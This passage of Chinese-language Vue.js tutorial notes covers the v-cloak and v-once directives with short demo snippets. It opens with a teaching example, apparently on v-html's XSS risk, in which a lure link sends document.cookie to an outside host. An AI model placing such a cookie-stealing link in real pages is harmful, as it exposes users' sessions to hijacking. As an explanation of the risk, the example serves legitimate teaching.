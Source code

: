 ```html
      name:'尚硅谷',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
<a name="Ahk28"></a>
### v-cloak指令
v-cloak指令（没有值）：

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
```html
<!-- 准备好一个容器-->
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>

<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>


<script type="text/javascript">
  console.log(1)

  new Vue({
    el:'#root',
    data:{
      name:'尚硅谷'
    }
  })
</script>
```
<a name="PWg2X"></a>
### v-once指令

1. v-once所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
```html
<!-- 准备好一个容器-->
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
<a name="dLuZV"></a>
### v-pre指令
